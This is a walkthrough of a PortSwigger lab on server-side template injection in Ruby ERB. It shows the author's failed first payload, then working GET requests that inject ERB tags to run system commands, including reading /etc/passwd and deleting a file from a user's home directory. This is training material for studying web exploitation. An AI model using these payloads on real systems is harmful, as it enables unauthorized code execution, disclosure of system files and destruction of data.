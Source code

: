 
# Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.


---------------------------------------------

References: 

- https://portswigger.net/web-security/server-side-template-injection/exploiting

- https://www.trustedsec.com/blog/rubyerb-template-injection/

- https://twitter.com/harshbothra_/status/1498324305872318464?lang=en



![img](images/Basic%20server-side%20template%20injection/1.png)

---------------------------------------------

The first post returns an error:



![img](images/Basic%20server-side%20template%20injection/2.png)


This is generated with a GET request which controls the displayed message:



![img](images/Basic%20server-side%20template%20injection/3.png)


I tried to send the URL-encoded version of this payload from the examples:

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
```

```
GET /?message=%3c%25%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%69%6d%70%6f%72%74%20%6f%73%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%78%3d%6f%73%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%28%29%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24%7b%78%7d
```

And generated the following error:



![img](images/Basic%20server-side%20template%20injection/4.png)


We can find information about SSTI in Erb in this [Trustedsec blog](https://www.trustedsec.com/blog/rubyerb-template-injection/):

```
GET /?message=<%=+4*4+%>
```



![img](images/Basic%20server-side%20template%20injection/5.png)


It is possible to execute code with a payload like this:

```
GET /?message=<%=+system('cat+/etc/passwd')+%>

GET /?message=<%=+system('rm+/home/carlos/morale.txt')+%>
```







![img](images/Basic%20server-side%20template%20injection/6.png)
![img](images/Basic%20server-side%20template%20injection/7.png)